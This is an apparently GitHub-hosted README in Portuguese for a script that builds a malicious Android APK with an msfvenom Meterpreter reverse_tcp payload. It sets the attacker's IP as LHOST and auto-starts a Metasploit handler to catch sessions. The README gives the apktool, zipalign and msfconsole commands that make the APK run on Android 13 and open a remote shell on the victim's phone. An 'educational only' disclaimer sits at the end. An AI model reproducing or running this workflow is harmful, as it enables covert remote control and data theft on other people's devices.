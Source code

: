 <h1>Automatização de Geração de APK com Payload Meterpreter e Exploração com Metasploit</h1>
<p>Este projeto automatiza o processo de criação de um APK malicioso com o payload Meterpreter para Android, utilizando o <code>msfvenom</code>, e fornece instruções para modificar o <code>AndroidManifest.xml</code> para compatibilidade com Android 13. O script também inicia automaticamente o listener no Metasploit para capturar a conexão do dispositivo alvo.
    (    OU SEJA ELE PEGA SEU IP COM IPCONFIG BOTA NO LHOST GERAR O PAYLOAD E DEPOIS EXECUTAR O METERPRETE AUTOMATICO )
</p>

<h2>Requisitos</h2>
<ul>
<li>Python 3 instalado.</li>
<li><code>msfvenom</code>: Ferramenta do Metasploit para gerar payloads.</li>
<li>Metasploit Framework: Ferramenta para exploração e captura de sessões de meterpreter.</li>
<li><code>ApkTool</code>: Ferramenta para descompilar, modificar e recompilar APKs.</li>
<li><code>ZipAlign</code>: Ferramenta para otimizar APKs.</li>
<li><code>ApkSigner</code>: Ferramenta para assinar APKs.</li>
</ul>

<h2>Instalação dos requisitos</h2>
<p>Instale o Metasploit Framework:</p>
<pre><code>curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash</code></pre>

<p>Instale o ApkTool:</p>
<ul>
<li>Baixe o ApkTool para atualizar para o Android 13 <a href="https://github.com/iBotPeaches/Apktool" target="_blank">aqui</a>.</li>
<li>Siga as instruções para a instalação no seu sistema.</li>
</ul>

<p>Instale o ZipAlign:</p>
<ul>
<li>O ZipAlign geralmente faz parte do Android SDK.</li>
<li>Você pode baixar o Android SDK <a href="https://developer.android.com/studio" target="_blank">aqui</a>.</li>
</ul>

<p><code>msfvenom</code> já faz parte do Metasploit Framework, então você não precisa instalar separadamente.</p>

<h2>Como usar o script</h2>
<h3>Passo 1: Clone o repositório</h3>
<p>Clone este repositório para sua máquina local:</p>
<pre><code>git clone https://github.com/seu-usuario/automacao-apk-metasploit.git
cd automacao-apk-metasploit</code></pre>

<h3>Passo 2: Execute o script</h3>
<p>Antes de executar o script, certifique-se de que todas as ferramentas mencionadas acima estão instaladas e funcionando corretamente.</p>
<p>Execute o script Python:</p>
<pre><code>python3 generate_apk.py</code></pre>

<h3>Passo 3: O que o script faz</h3>
<ul>
<li><strong>Obtém o IP local</strong>: O script utiliza o comando <code>ifconfig</code> para obter o IP local da máquina.</li>
<li><strong>Gera o APK</strong>: Usando o <code>msfvenom</code>, o script gera um APK malicioso com o payload Meterpreter para o IP local (LHOST) e porta <code>4444</code> (LPORT).</li>
<li><strong>Instruções para Modificar o Manifesto</strong>: O script fornecerá as instruções para você atualizar o arquivo <code>AndroidManifest.xml</code> no APK para torná-lo compatível com Android 13.</li>
<li><strong>Iniciar o Listener no Metasploit</strong>: O script executará automaticamente o Metasploit para começar a escutar conexões de dispositivos com o payload.</li>
</ul>

<h3>Passo 4: Atualizar o AndroidManifest.xml (para Android 13)</h3>
<p>Após gerar o APK, você precisa modificar o <code>AndroidManifest.xml</code> para Android 13. Para isso, execute:</p>
    <pre><code>apktool d Brunao.apk</code></pre>

<p>Abra o arquivo <code>AndroidManifest.xml</code> dentro da pasta descompilada e adicione as permissões necessárias para Android 13.</p>

<p>Recompile o APK:</p>
<pre><code>apktool b Brunao</code></pre>

<p>Alinhe o APK com o comando:</p>
<pre><code>zipalign -v 4 Brunao.apk Brunao.apk</code></pre>

<p>Depois, o APK estará pronto para ser assinado e instalado.</p>

<h3>Passo 5: Executando o Listener no Metasploit</h3>
<p>Para iniciar o listener no Metasploit e aguardar a conexão do dispositivo alvo, execute:</p>
<pre><code>msfconsole -x 'use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST [SEU_IP]; set LPORT 4444; exploit'</code></pre>

<p>Este comando configurará o Metasploit para escutar as conexões de dispositivos com o payload.</p>

<h2>Contribuindo</h2>
<p>Sinta-se à vontade para fazer melhorias no código e enviar pull requests.</p>

<h2>Aviso Legal</h2>
<p>Este projeto é somente para fins educacionais. Não use essas técnicas em sistemas sem permissão. Realizar ataques sem autorização é ilegal e pode levar a sérias consequências legais.</p>

<div class="footer">
<p>&copy; 2025 Seu Nome. Todos os direitos reservados.</p>
</div>


Exemplo de Execução
Obter o IP da máquina: O script encontra o IP privado e o exibe.

Gerar o APK: O script gera o APK malicioso com o msfvenom.

Atualizar o AndroidManifest.xml: O script fornece as instruções para editar o AndroidManifest.xml para Android 13.

Iniciar o Listener: O script inicia o listener do Metasploit e exibe:

Copiar código
Iniciando o Metasploit... Aguarde.
Sessão meterpreter iniciada.
Exibir Comandos: O script exibe os comandos disponíveis, como "executar" e "help".

<h1>Leia a msg que tá no terminal acima da execução do payload sobre a atualização para o android 13</h1>
